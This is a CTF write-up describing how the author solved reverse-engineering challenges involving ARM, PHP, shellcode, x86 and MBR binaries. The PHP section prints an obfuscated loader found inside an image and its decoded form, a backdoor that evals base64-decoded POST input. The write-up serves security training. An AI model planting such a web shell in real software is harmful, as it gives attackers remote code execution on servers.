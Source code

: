 # Dakota State University and University of Nebraska-Kearny Reverse Engineering CTF 2017

This CTF was fun :D

I managed to solve all the challenges but some guy named *Nick* managed to
finish before me so he got moar points.
To my defense, I was playing in a totally different timezone.

Most of the challenges involved obfuscated (pseudo-)malware so there's no much
point in explaining how I gradually deobfuscated them.
They were simple enough to not require complex automated tools.

Some solutions are missing because I deleted the challenge file so I can't
review them, others because they require a lengthy manual process of analysis
that I can't really explain without writing a ton of text here.

## ARM

### Challenge 1

I don't remember anymore, but I recall the issue was check which one of the
flags embedded in the binary was the real one (instead of just submitting
the first you see).

### Challenge 2

In the `main()` for the binary, just keep track of the value of R0.
Each value is the ASCII value of a character of the flag.
I copied the interesting part of the disassembly and implemented a dumb DIY
emulator. Just run the [arm_2.py](arm_2.py) to get the flag.

### Challenge 3

This challenge is similar to the previous one, but the value of R0 is changed
in a ROP fashion.
I once again implemented a dumb emulator to unfold the ROP.
You can find it in [arm_3.py](arm_3.py).

## PHP

### Challenge 1

`index.php` includes an image as if it was a php file.
We open the image and keep the final part, which is valid PHP code.
Now we can replace `eval(...)` with `echo "$do_me\n";` and put the file inside
a php tag `<?php ...code... ?>`.

Now we can do `php image.php` and get
```php
$_= 'aWYoaXNzZXQoJF9QT1NUWyJldmlsIl0pKXtldmFsKGJhc2U2NF9kZWNvZGUoJF9QT1NUWyJldmlsIl0pKTsvKmV2aWxAZHN1LmVkdSovfQ==';$__='JGNvZGU9YmFzZTY0X2RlY29kZSgkXyk7ZXZhbCgkY29kZSk7';$___="\x62\141\x73\145\x36\64\x5f\144\x65\143\x6f\144\x65";eval($___($__));
```

Replace `eval` with `print`, put in a php file and run it again:
```php
$code=base64_decode($_);eval($code);
```

Let's see what's inside the base64-encoded `$_` variable:
```bash
$ echo aWYoaXNzZXQoJF9QT1NUWyJldmlsIl0pKXtldmFsKGJhc2U2NF9kZWNvZGUoJF9QT1NUWyJldmlsIl0pKTsvKmV2aWxAZHN1LmVkdSovfQ== | base64 -d
if(isset($_POST["evil"])){eval(base64_decode($_POST["evil"]));/*evil@dsu.edu*/}
```

And there it is :)

### Challenge 2

This is similar to the previous, but more complicated.
Special care must be taken to avoid eval'ing code which we don't control, but I
managed to solve it with the same "eval => print" style.

By the way, printing stuff as you go is also a technique which works for simple
javascript challenges.

## Shellcode

The flag is hidden in the final part of the outer function.
It runs two loops that reassemble the flag from the string at the end of the
binary.
The logic is reimplemented in [shellcode.py](shellcode.py).
The `shellcode` file is copied as-is from the challenge.
If you want me to remove it please contact me.

## x86

### Challenge 1

I deleted the file, but the flag is embedded as a string in it, so you can get
it by simply running `strings <filename> | grep @`.

### Challenge 2

The file for this challenge was an EXE requiring two different password, that
once contatenated formed the flag.

The first password was checked inside the function at `.text:00401120`.
It loads two hardcoded magic values in memory and then XORs them byte per byte.
One of the values read `DEADCODE` so this hints that we are in the right
direction.
I reimplemented the check in python inside [x86_2_0.py](x86_2_0.py).

The second password was checked in the function at `.text:00401210`.
I couldn't get the binary to get past the first check even if I had the correct
password so I simply modded the file to jump directly to the second check.
We don't really have to understand the function completely to solve the
challenge, because for every input character the application prints the value it
expected.
So I hacked together an ugly python script to bruteforce it char-by-char.
The final script is file [x86_2_1.py](x86_2_1.py).
It's really ugly but it works and I just wanted something quick to write.
**Note:** the script is supposed to be run on Linux with `wine` installed.

### Challenge 3

The file was the dump of a MBR.
You can easily verify it using `file <name of the file>`.
Once set up to run inside bochs, it started showing random-looking text:

![x86 screenshot](images/x86_3.png)

The 16-bit assembly code in the MBR is printing some weird strings using the
BIOS's built-in functionalities.
Basically, it starts from an hard-coded array of 16-bit words and cyclically
XOR them with the same key.
This key is incremented every time the string is printed to the screen.

At this point, I was lost for a good amount of hours (too many, actually) since
I couldn't think of a way to turn this knowledge into a valid flag.
I reimplemented the ASM logic in python but I was totally lost.
In desperation, I did the simplest thing I could do: discard all the strings
which contained non-printable ASCII characters.
To my surprise, only one such string was outputted by my script and its XOR key
was 0x1337, so I knew I found the correct value.

The final script to get the flag is implemented in [x86_3.py](x86_3.py).

